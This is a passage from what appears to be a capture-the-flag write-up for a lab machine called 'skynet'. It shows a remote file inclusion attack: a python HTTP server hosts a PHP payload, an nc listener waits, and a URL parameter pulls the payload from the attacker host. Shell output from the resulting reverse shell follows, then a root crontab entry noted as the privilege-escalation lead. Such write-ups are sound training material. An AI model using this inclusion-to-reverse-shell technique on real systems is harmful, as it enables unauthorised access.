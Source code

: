 start a python server `python -m http.server 8000`

then start a listener: `nc -lvnp 444`

now we go to this page:

`<machine_ip>/<redacted>/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.20.116:8000/php.php`

And we have our reverse shell.

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.34.11] 42912
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:39:18 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1459): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/$
```

From here we can go to miles home directory and find the user flag.

Now we want to get the root flag.

after searching for a while, the only thing that seems interessing is this:

```bash
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

There is a backup running all minutes, and it is using root privileges.
